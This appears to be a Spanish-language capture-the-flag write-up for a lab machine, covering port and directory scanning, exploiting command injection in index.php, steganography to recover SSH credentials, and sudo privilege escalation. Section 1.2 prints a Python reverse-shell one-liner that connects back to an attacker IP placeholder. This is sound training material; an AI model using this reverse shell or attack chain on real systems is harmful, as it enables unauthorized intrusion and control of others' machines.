 ## 1. Enumeración

### Escaneo inicial con Nmap

Comenzamos con la fase de escaneo de puertos utilizando la herramienta `nmap`:

```bash
nmap -sS -p- <IP-OBJETIVO>
```

![Escaneo Nmap](imagenesb/bakugo1.png)

Como podemos observar, encontramos **dos puertos abiertos**:

- **80/tcp**: HTTP
- **22/tcp**: SSH

---

### 1.1 Enumeración del puerto 80 (HTTP)

Utilizamos `gobuster` para realizar fuerza bruta a los directorios:

```bash
gobuster dir -u http://<IP-OBJETIVO> -w /usr/share/wordlists/dirb/common.txt
```

Resultados iniciales:

![Gobuster directorios](imagenesb/bakugo2.png)

Encontramos el directorio `/assets`. Al ingresar, no se muestra nada útil.

Realizamos fuerza bruta dentro del directorio `assets`:

```bash
gobuster dir -u http://<IP-OBJETIVO>/assets -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster en /assets](imagenesb/bakugo3.png)

Dentro del directorio `/assets`, encontramos un archivo `index.php`.

#### Enumeración con Dirsearch

Ejecutamos `dirsearch` para buscar más archivos o vulnerabilidades:

```bash
dirsearch -u http://<IP-OBJETIVO>/assets
```

![Dirsearch resultados](imagenesb/bakugo4.png)

Aquí detectamos una vulnerabilidad de **inyección de comandos** en `index.php`.

---

### 1.2 Explotación de la vulnerabilidad

Al interactuar con la vulnerabilidad, encontramos texto codificado en **Base64**. Usamos `CyberChef` para decodificarlo.

![Decodificación en CyberChef](imagenesb/bakugo7.png)

Una vez entendida la vulnerabilidad, procedemos a subir una **reverse shell** en Python:

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![Subida de reverse shell](imagenesb/bakugo8.png)

Logramos obtener acceso a la máquina.

---

### 1.3 Búsqueda de información

#### Archivos interesantes

Al explorar la máquina, encontramos un directorio con imágenes:

![Directorio de imágenes](imagenesb/bakugo9.png)

Copiamos las imágenes a nuestra máquina para analizarlas:

```bash
scp usuario@<IP-OBJETIVO>:/ruta/a/las/imagenes .
```

#### Contraseñas codificadas

También encontramos un archivo con una contraseña codificada en Base64:

![Contraseña codificada](imagenesb/bakugo11.png)

Decodificamos la contraseña:

```bash
echo "<contraseña-codificada>" | base64 -d
```

---

### 1.4 Análisis de imágenes

Al analizar la imagen `0neforall.jpg`, observamos que tiene un error. Usamos `hexeditor` para inspeccionar su contenido:

```bash
hexeditor 0neforall.jpg
```

![Hexeditor muestra error](imagenesb/bakugo13.png)

El encabezado indica que la imagen es de formato PNG. Corregimos el error cambiando el encabezado a JPG.

![Imagen corregida](imagenesb/bakugo14.png)

#### Extracción con Steghide

Usamos `steghide` para extraer datos ocultos de la imagen:

```bash
steghide extract -sf 0neforall.jpg
```

![Extracción con Steghide](imagenesb/bakugo16.png)

Obtenemos el usuario y contraseña para acceder al servicio SSH.

---

### 2. Conexión por SSH y escalada de privilegios

Nos conectamos por SSH con las credenciales extraídas:

```bash
ssh usuario@<IP-OBJETIVO>
```

![Conexión SSH](imagenesb/bakugo17.png)

#### Escalada de privilegios

Identificamos que el usuario puede ejecutar un script con privilegios elevados. Modificamos el archivo `sudoers` para agregar nuestro usuario con privilegios de superusuario:

```bash
sudo visudo
```

Finalmente, obtenemos acceso como **root** y la segunda bandera.

![Acceso root](imagenesb/bakugo18.png)

---

### Conclusión

Hemos completado el acceso inicial, la explotación y la escalada de privilegios, logrando obtener las banderas requeridas. ¡Buen trabajo!
